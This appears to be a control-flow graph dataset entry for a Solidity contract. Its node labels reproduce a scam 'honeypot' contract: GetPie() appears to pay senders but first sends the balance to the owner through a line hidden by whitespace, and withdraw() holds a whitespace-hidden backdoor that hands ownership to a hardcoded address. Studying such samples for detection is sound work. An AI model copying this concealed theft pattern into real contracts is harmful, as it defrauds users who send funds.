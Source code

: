 digraph  {
13 [label="3_ address public Owner = msg.sender;\n13-new_variable-4-4", method="", type_label=new_variable];
25 [label="9_ function GetPie()\n    public\n    payable\n    {                                                                    \n        if(msg.value>1 ether)\n        {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       Owner.transfer(this.balance);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           \n            msg.sender.transfer(this.balance);\n        }                                                                                                                \n    }\n25-function_definition-10-18", method="GetPie()", type_label=function_definition];
30 [label="13_ if_msg.value>1 ether\n30-if-14-17", method="GetPie()", type_label=if];
153 [label="13_ end_if", method="GetPie()", type_label=end_if];
38 [label="14_ Owner.transfer(this.balance);\n38-expression_statement-15-15", method="GetPie()", type_label=expression_statement];
47 [label="15_ msg.sender.transfer(this.balance);\n47-expression_statement-16-16", method="GetPie()", type_label=expression_statement];
58 [label="18_ function withdraw()\n    payable\n    public\n    {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       if(msg.sender==0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6){Owner=0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6;}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        \n        require(msg.sender == Owner);\n        Owner.transfer(this.balance);\n    }\n58-function_definition-19-25", method="withdraw()", type_label=function_definition];
63 [label="21_ if_msg.sender==0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6\n63-if-22-22", method="withdraw()", type_label=if];
186 [label="21_ end_if", method="withdraw()", type_label=end_if];
70 [label="21_ Owner=0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6;\n70-expression_statement-22-22", method="withdraw()", type_label=expression_statement];
74 [label="22_ require(msg.sender == Owner);\n74-expression_statement-23-23", method="withdraw()", type_label=expression_statement];
83 [label="23_ Owner.transfer(this.balance);\n83-expression_statement-24-24", method="withdraw()", type_label=expression_statement];
92 [label="25_ function Command(address adr,bytes data)\n    payable\n    public\n    {\n        require(msg.sender == Owner);\n        adr.call.value(msg.value)(data);\n    }\n92-function_definition-26-32", method="Command(address adr,bytes data)", type_label=function_definition];
105 [label="29_ require(msg.sender == Owner);\n105-expression_statement-30-30", method="Command(address adr,bytes data)", type_label=expression_statement];
114 [label="30_ adr.call.value(msg.value)(data);\n114-expression_statement-31-31", method="Command(address adr,bytes data)", type_label=expression_statement];
1 [label="0_ start_node", method="", type_label=start];
2 [label="0_ exit_node", method="", type_label=exit];
25 -> 30  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
30 -> 38  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
30 -> 153  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
153 -> 58  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
38 -> 47  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
47 -> 153  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
58 -> 63  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
63 -> 70  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
63 -> 186  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
186 -> 74  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
70 -> 186  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
74 -> 83  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
92 -> 105  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
105 -> 114  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
}
